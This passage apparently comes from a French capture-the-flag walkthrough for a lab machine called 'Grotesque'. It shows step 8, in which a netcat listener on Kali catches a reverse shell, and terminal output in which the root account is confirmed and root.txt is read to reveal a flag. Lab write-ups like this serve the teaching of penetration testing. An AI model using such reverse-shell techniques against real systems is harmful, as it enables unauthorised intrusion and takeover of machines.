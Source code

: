 8. Puis surveillez nc -lvp 6666 dans Kali

```bash
⬢  Grotesque: 3.0.1  nc -lvp 6666                    
listening on [any] 6666 ...
Warning: forward host lookup failed for bogon: Unknown host
connect to [10.1.12.130] from bogon [10.1.12.130] 40334
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root.txt
# cat root.txt  
5C42D6BB0EE9CE4CB7E7349652C45C4A# 

```
Obtention réussie des autorisations root et obtention de flag2 !
